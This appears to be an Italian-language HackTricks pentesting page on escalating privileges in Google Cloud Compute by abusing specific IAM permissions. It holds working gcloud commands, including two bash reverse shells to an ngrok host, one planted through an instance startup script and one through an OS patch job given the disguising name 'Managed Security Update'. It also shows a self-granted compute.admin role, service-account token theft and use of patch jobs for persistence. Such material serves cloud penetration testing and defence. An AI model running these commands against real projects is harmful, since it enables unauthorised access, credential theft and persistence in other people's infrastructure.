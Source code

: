 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Per ulteriori informazioni su Compute e VPC (rete) in GCP controlla:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Nota che per eseguire tutti gli attacchi di escalation dei privilegi che richiedono di modificare i metadati dell'istanza (come aggiungere nuovi utenti e chiavi SSH) è **necessario avere permessi `actAs` sul SA allegato all'istanza**, anche se il SA è già allegato!

### `compute.projects.setCommonInstanceMetadata`

Con quel permesso puoi **modificare** le informazioni di **metadati** di un'**istanza** e cambiare le **chiavi autorizzate di un utente**, o **creare** un **nuovo utente con permessi sudo**. Pertanto, sarai in grado di eseguire via SSH in qualsiasi istanza VM e rubare il GCP Service Account con cui l'istanza sta funzionando.\
Limitazioni:

- Nota che i GCP Service Accounts in esecuzione nelle istanze VM per impostazione predefinita hanno un **ambito molto limitato**
- Dovrai essere **in grado di contattare il server SSH** per accedere

Per ulteriori informazioni su come sfruttare questo permesso controlla:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Potresti anche eseguire questo attacco aggiungendo un nuovo script di avvio e riavviando l'istanza:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Questo permesso conferisce i **stessi privilegi del permesso precedente** ma su istanze specifiche invece che su un intero progetto. **Gli stessi exploit e limitazioni della sezione precedente si applicano**.

### `compute.instances.setIamPolicy`

Questo tipo di permesso ti permetterà di **assegnare a te stesso un ruolo con i permessi precedenti** e di elevare i privilegi abusandone. Ecco un esempio di aggiunta di `roles/compute.admin` a un Service Account:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Se **OSLogin è abilitato nell'istanza**, con questo permesso puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. Non **avrai privilegi di root** all'interno dell'istanza.

> [!TIP]
> Per effettuare correttamente il login con questo permesso all'interno dell'istanza VM, devi avere il permesso `iam.serviceAccounts.actAs` sul SA associato alla VM.

### **`compute.instances.osAdminLogin`**

Se **OSLogin è abilitato nell'istanza**, con questo permesso puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. Avrai **privilegi di root** all'interno dell'istanza.

> [!TIP]
> Per effettuare correttamente il login con questo permesso all'interno dell'istanza VM, devi avere il permesso `iam.serviceAccounts.actAs` sul SA associato alla VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

È possibile **creare una macchina virtuale con un Service Account assegnato e rubare il token** dell'account di servizio accedendo ai metadati per elevare i privilegi su di esso.

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se hai i permessi **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puoi creare un [**lavoro di patch o distribuzione**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Questo ti permetterà di muoverti lateralmente nell'ambiente e ottenere l'esecuzione di codice su tutte le istanze di calcolo all'interno di un progetto.

Nota che al momento non **hai bisogno del permesso `actAs`** sul SA associato all'istanza.

Se vuoi sfruttare manualmente questo, dovrai creare o un [**lavoro di patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **o** [**distribuzione**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Per un lavoro di patch esegui:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Per distribuire un'implementazione di patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Lo strumento [patchy](https://github.com/rek7/patchy) potrebbe essere stato utilizzato in passato per sfruttare questa misconfigurazione (ma ora non funziona).

**Un attaccante potrebbe anche abusare di questo per la persistenza.**

### `compute.machineImages.setIamPolicy`

**Concediti permessi extra** per l'immagine di calcolo.

### `compute.snapshots.setIamPolicy`

**Concediti permessi extra** per uno snapshot del disco.

### `compute.disks.setIamPolicy`

**Concediti permessi extra** per un disco.

### Bypass Access Scopes

Seguendo questo link troverai alcune [**idee per provare a bypassare gli access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}

